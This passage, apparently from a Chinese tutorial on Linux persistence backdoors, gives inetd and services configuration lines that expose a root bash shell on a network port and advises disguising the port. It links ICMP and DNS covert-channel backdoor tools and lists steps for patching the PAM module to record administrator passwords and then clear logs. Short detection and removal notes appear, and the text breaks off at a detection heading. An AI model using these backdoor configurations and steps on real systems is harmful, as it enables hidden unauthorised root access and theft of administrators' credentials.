 ```
Copy`#可以配合suid后门，修改/etc/services文件：
suidshell 6666/tcp
#然后修改/etc/inetd.conf
suidshell stream tcp nowait root /bin/bash bash -i
#可以修改成一些常见的端口，以实现隐藏` 
```

检测：查看配置文件即可

```
Copy`cat /etc/inetd.conf` 
```

### 0x09 协议后门

在一些访问控制做的比较严格的环境中，由内到外的TCP流量会被阻断掉。但是对于UDP(DNS、ICMP)相关流量通常不会拦截。

#### ICMP

主要原理就是利用ICMP中可控的data字段进行数据传输，具体原理请参考: [https://zhuanlan.zhihu.com/p/41154036](https://zhuanlan.zhihu.com/p/41154036)

开源工具：ICMP后门项目地址：[https://github.com/andreafabrizi/prism](https://github.com/andreafabrizi/prism)

#### DNS

在大多数的网络里环境中IPS/IDS或者硬件防火墙都不会监控和过滤DNS流量。主要原理就是将后门载荷隐藏在拥有PTR记录和A记录的DNS域中（也可以利用AAAA记录和IPv6地址传输后门），具体请参考：[通过DNS传输后门来绕过杀软](https://www.anquanke.com/post/id/85431)

开源工具：DNS后门项目地址：[https://github.com/DamonMohammadbagher/NativePayload_DNS](https://github.com/DamonMohammadbagher/NativePayload_DNS)

协议后门检测：对于DNS/ICMP这种协议后门，直接查看网络连接即可，因为在使用过程中会产生大量的网络连接

清除：kill进程、删除文件即可

### 0x10 PAM后门

PAM使用配置 /etc/pam.d/ 下的文件来管理认证方式，应用程序调用相应的配置文件，以加载动态库的形式调用 /lib/security下的模块。

PAM配置可分为四个参数: 模块类型、控制标记、模块路径、模块参数，例如: session required pam_selinux.so open

上面提到的 sshd 软链接后门利用的 PAM 机制达到任意密码登录，还有一种方式是键盘记录。原理主要是通过 pam_unix_auth.c 打补丁的方式潜入到正常的 pam 模块中，以此来记录管理员的帐号密码。

利用步骤：复制patch到源代码目录 >>> 打patch >>> 编译 >>> 将生成的pam_uninx.so文件覆盖到/lib/secruity/pam_unix.so下 >>> 修改文件属性 >>> 建立密码保存文件，并设置好相关的权限 >>> 清理日志 >>> ok

```
Copy`#确保ssh开启pam支持
vim /etc/ssh/sshd_config
UsePAM yes

#自动化脚本
https://github.com/litsand/shell/blob/master/pam.sh` 
```

检测：
